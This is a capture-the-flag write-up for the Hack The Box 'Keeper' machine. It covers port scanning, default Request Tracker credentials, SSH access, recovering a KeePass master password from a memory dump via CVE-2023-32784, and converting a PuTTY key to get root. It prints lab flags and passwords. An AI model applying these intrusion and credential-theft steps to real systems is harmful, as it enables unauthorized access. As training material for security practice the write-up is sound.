

# Keeper

| Author | Date       | Difficulty | OS    |
| ------ | ---------- | ---------- | ----- |
| D      | 2025/01/13 | Easy       | Linux |
  <br>
  
## Enumeration
### 1. Port Scanning

*We begin by scanning the target machine for open ports and services.*
  
```console

root@kali~# nmap -sV -sC -p- -o output_nmap.txt 10.10.11.227

[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open http nginx 1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

### 2. HTTP
*Browsing to port 80, we find a hyperlink on the page, which redirects us to `tickets.keeper.htb`. We add this domain:*
  
```console
root@kali~# echo "10.10.11.227 tickets.keeper.htb keeper.htb" >> /etc/hosts
```

*We are able to visit `tickets.keeper.htb` and encounter a Request Tracker (RT) login page. RT is an open-source web-based ticketing system, often used for managing tasks and workflows, particularly for help desks, support teams, and environments where tracking and responding to issues is important.*


*We search for default credentials for `Request Tracker` and find in the documentation that `root:password` grants us access to the root dashboard.*



### 3. Web Enumeration

*While navigating the dashboard, we see an `admin` section, which shows all users. We click on the only user (besides `root`) and discover their password (`Welcome2023!`).*


## Foothold

### 4. SSH Login

*We log in via SSH using the discovered credentials and print the `user.txt` flag:*
  
```console
root@kali~# ssh lnorgaard@keeper.htb

[...]

lnorgaard@keeper:~$ whoami
lnorgaard

lnorgaard@keeper:~$ ls
RT30000.zip user.txt

lnorgaard@keeper:~$ cat user.txt
6de1585fc1cf680afdac2810a966d13e

```
## Privilege Escalation
### 5. KeePass File Discovery

*Upon checking files present in the user's home folder, we discover a zip file. Unzipping its contents reveals two files: `KeePassDumpFull.dmp` and `passcodes.kdbx`.*

```console
lnorgaard@keeper:~$ unzip RT30000.zip

KeePassDumpFull.dmp linpeas.sh passcodes.kdbx RT30000.zip user.txt
```

> [!NOTE]  
> KeePass is a password manager that stores and encrypts passwords. Files with the `.kdbx` extension are KeePass Password Databases, containing encrypted passwords that can be viewed using a master password.

### 6. Exploiting CVE-2023-32784

*Searching for "KeePass master password vulnerabilities" leads us to **CVE-2023-32784**, as well as a proof-of-concept tool used to dump the master password from KeePass' memory dump. The flaw is that leftover strings are created in memory for each character typed. For example, when "Password" is typed, it generates the following strings: `a`, `s`, `ss`, `sss`, `ssss`, etc.*

*We need to copy the zip file to our local machine using SCP:*

```console

root@kali~# scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip .

```

> [!NOTE]  
> `SCP` is a protocol that uses SSH to securely transfer files between a local machine and a remote machine. It is commonly used to copy files to and from a remote server.

*To run the exploit, we first need to install .NET and clone the proof-of-concept repository from GitHub. After this, we change the directory to the exploit folder and run it against the `KeePassDumpFull.dmp` file:*

```console
kali@root~# git clone https://github.com/vdohney/keepass-password-dumper.git

kali@root~# cd keepass-password-dumper

kali@root~# dotnet run ../KeePassDumpFull.dmp
[...]

Password candidates (character positions):

Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

[...]
```

*We successfully retrieve the probable master password: `dgrød med fløde`. Using this, we attempt to open the KeePass database with `kpcli`.*
  
```console
kpcli:/> help
[...]

open -- Open a KeePass database file (open <file.kdb> [<file.key>])

[...]
```

> [!NOTE]  
> `kpcli` is a command-line interface for working with KeePass databases.
### 7. Accessing KeePass Database

*We try to open the database but encounter an error. Upon further research, we discover that the correct password is `rødgrød med fløde`, and we try again:*  

```console

kpcli:/> open passcodes.kdbx

Provide the master password: rødgrød med fløde

```

*We can now navigate to the `passcodes` section and then to `Network`, where we find the following credentials for `keeper.htb`:*

```console
kpcli:/passcodes/Network> show 0 -f

Title: keeper.htb (Ticketing Server)

Uname: root

Pass: F4><3K0nd!

URL:

Notes: PuTTY-User-Key-File-3: ssh-rsa

Encryption: none

Comment: rsa-key-20230519

Public-Lines: 6

AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D

[...]

Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

```

> [!TIP]   
> We use the `-f` flag for showing the hidden section.

### 8. Converting PUTTY Private Key into OpenSSH Key

> [!TIP]   
> For having the correct format we use `regex` inside vim to remove the space : `:%s/ //g` and starting with `PuTTY-User-Key-File-3: ssh-rsa

*We now have a `.ppk` file, which is a `PUTTY` private key. To use it with SSH, we convert it to an OpenSSH key using `puttygen`:*

```console
root@kali~# puttygen root.ppk -O private-openssh -o id_dsa
````

> [!NOTE]  
> `Puttygen` is a tool used to generate SSH keys, especially for the PuTTY SSH client. It can also convert between different SSH key formats, including converting PuTTY's `.ppk` format to OpenSSH's `.pem` format.

*We use this key to connect via SSH:*

```console
root@kali~# ssh -i id_dsa root@keeper.htb

root@keeper:~# whoami
root

root@keeper:~# cat root.txt
bbc2fa623ef937e8556c25d6f13cf89c
```
## Conclusion

*In this write-up, we demonstrated the process of exploiting an open-source ticketing system vulnerability, gaining user access, and escalating privileges using a known vulnerability in KeePass. After extracting the master password, we were able to access sensitive credentials and gain root access to the system, ultimately retrieving the `root.txt` flag.*

  

> [!IMPORTANT]  
> **nmap**: To scan open ports and services.
>
> **scp**: To securely transfer files between remote and local systems.
>
> **dotnet**: To run the KeePass password dumper exploit.
>
> **puttygen**: To convert PUTTY private key files into OpenSSH key format.
>
> **kpcli**: To interact with KeePass password database files.

